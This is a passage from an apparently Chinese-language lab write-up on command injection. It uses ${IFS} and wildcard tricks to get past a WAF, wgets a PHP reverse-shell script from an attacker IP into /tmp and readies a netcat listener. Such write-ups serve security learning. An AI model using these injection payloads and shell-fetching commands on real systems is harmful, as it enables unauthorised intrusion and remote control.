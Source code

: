 /bin/ls /bin/bash

结果：
/bin/ls: cannot access &#039;/bin/bash%20%23&#039;: No such file or directory

---

pwd

结果：
not found

---

wget -v

/usr/bin/w??t${IFS}-v%20%23

结果：
```
/usr/bin/wget: invalid option -- &#039;%&#039;<br>/usr/bin/wget: invalid option -- &#039;2&#039;<br>/usr/bin/wget: invalid option -- &#039;0&#039;<br>/usr/bin/wget: invalid option -- &#039;%&#039;<br>/usr/bin/wget: invalid option -- &#039;2&#039;<br>/usr/bin/wget: invalid option -- &#039;3&#039;<br>Usage: wget [OPTION]... [URL]...<br><br>Try `wget --help&#039; for more
```
---

本地开启802端口，准备好w.php——php反弹shell脚本。

```
wget http://10.10.14.18:802/w.php -P /tmp

/usr/bin/w??t${IFS}http://10.10.14.18:802/w.php${IFS}/tmp%20%23
```
![21](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/21.PNG)
成功

---
本地准备nc监听9000端口，等待反弹shell

```
chmod +x /tmp/w.php;./tmp/w.php

chmod${IFS}+x${IFS}/tmp/w.php;./tmp/w.php%20%23

结果：./tmp/w.php%20%23 not found
问题是，不知道wget把w.php保存到哪里去了。用/bin/ls也没有找到。
```
---

```
chmod${IFS}+x${IFS}/tmp/w.php;php${IFS}/tmp/w.php%20%23

Could not open input file: /tmp/w.php%20%23
```
---
ls被waf拦截，使用echo
